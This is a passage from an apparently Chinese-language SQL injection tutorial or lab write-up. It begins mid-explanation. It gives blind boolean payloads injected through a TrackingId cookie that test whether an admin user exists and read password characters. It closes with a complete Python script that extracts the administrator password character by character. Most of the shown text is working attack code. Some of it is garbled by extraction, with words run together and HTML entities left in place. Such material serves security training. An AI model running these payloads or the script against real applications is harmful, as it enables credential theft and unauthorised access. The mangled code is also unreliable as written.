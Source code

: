   
  
如果计数非零，则条件为真，应用程序可能显示有效会话。用于测试聚合查询。  
  
有效载荷示例2：  
  

```
Cookie: TrackingId=xyz' AND EXISTS(SELECT1FROMusersWHERE username='admin')--
```

  
  
检查“admin”用户是否存在。如果用户存在则返回 True，否则返回 false。  
  
有效载荷示例3（子字符串测试）：  
  

```
Cookie: TrackingId=xyz' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), 2, 1) = 'b'--
```

  
  
定位到密码的第二个字符。通过调整位置和字符，可以重建完整的字符串。  
  
7.1.1 使用 Python 实现自动化  
  
点击展开脚本  
  

```
import requests

tracking_id = input(&#34;enter tracking id: &#34;)
session_id = input(&#34;enter session id: &#34;)
url = input(&#34;enter url: &#34;)

# 1) Find length
defget_length():
    for i in range(1, 50):
        payload = f&#34;'+AND+(select+length(password)+from+users+where+username='administrator')={i}--&#34;
        cookies = {&#34;TrackingId&#34;: tracking_id + payload, &#34;session&#34;: session_id}
        r = requests.get(url, cookies=cookies)
        if&#34;Welcome back!&#34;in r.text:
            return i

# 2) Extract characters
defget_password(l):
    charset = &#34;abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789&#34;
    result = &#34;&#34;
    for pos in range(1, l+1):
        for ch in charset:
            payload = f&#34;'+AND+(select+substring(password,{pos},1)+from+users+where+username='administrator')='{ch}'--&#34;
            cookies = {&#34;TrackingId&#34;: tracking_id + payload, &#34;session&#34;: session_id}
            r = requests.get(url, cookies=cookies)
            if&#34;Welcome back!&#34;in r.text:
                result += ch
                break
    return result

length = get_length()
print(&#34;Password length:&#34;, length)
print(&#34;Password:&#34;, get_password(length))
```

